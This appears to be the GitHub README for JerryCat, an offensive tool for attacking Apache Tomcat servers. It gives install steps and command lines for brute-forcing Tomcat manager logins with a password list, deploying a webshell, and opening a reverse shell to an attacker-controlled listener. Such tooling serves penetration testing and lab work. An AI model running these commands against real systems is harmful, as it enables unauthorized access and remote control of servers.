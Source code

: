 <h1 align="center">JerryCat 🐭<h1>

![2024-09-05_11h33_48](https://github.com/user-attachments/assets/2a2c2979-93f9-45d1-86ca-e0cb0e245f65)


<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.1-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-gray.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] [Brute Force (brute)](#brute-force)
 - [x] [Webshell (exec)](#webshell)
 - [x] [Reverse shell (reverse)](#reverse-shell)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.10:8080/ -P resources/password-list-common-tomcat.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.10:8080/ -U /path/to/user/list -P resources/password-list-common-tomcat.txt
```

## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.10:8080/ -u tomcat -p s3cret
```

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.10:8080/ -u tomcat -p s3cret --lhost 10.10.10.10 --lport 4444
```





